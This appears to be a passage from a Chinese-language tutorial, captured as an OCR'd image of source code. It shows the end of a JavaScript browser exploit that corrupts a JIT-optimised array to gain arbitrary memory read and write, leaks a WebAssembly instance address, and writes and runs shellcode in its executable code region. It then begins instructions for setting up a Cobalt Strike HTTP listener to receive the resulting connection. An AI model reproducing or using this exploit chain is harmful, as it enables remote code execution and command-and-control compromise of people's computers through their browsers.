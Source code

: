       }
       for (var i = 0; i < 0x10000; ++i)
           foo(false);
       gc(); gc();
      [corrput_arr, rwarr, corrupt_buff] = foo(true);
       corrput_arr[12] = 0x22444;
       delete corrput_arr;
       function setbackingStore(hi, low) {
           rwarr[4] = i2f(fLow(rwarr[4]), hi);
           rwarr[5] = i2f(low, fHi(rwarr[5]));
      }
       function leakObjLow(o) {
           corrupt_buff.slot = o;
           return (fLow(rwarr[9]) - 1);
      }
       let corrupt_view = new DataView(corrupt_buff);
       let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
       let idx0Addr = corrupt_buffer_ptr_low - 0x10;
       let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) - ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) + 0x40000;
       let delta = baseAddr + 0x1c - idx0Addr;
       if ((delta % 8) == 0) {
           let baseIdx = delta / 8;
           this.base = fLow(rwarr[baseIdx]);
      } else {
           let baseIdx = ((delta - (delta % 8)) / 8);
           this.base = fHi(rwarr[baseIdx]);
      }
       let wasmInsAddr = leakObjLow(wasmInstance);
       setbackingStore(wasmInsAddr, this.base);
       let code_entry = corrupt_view.getFloat64(13 * 8, true);
       setbackingStore(fLow(code_entry), fHi(code_entry));
       for (let i = 0; i < shellcode.length; i++) {
           corrupt_view.setUint8(i, shellcode[i]);
      }
       main();
    </script>

2、打开cobaltstrike，设置一个监听http或https的都可以https的相对稳定，这里使用http

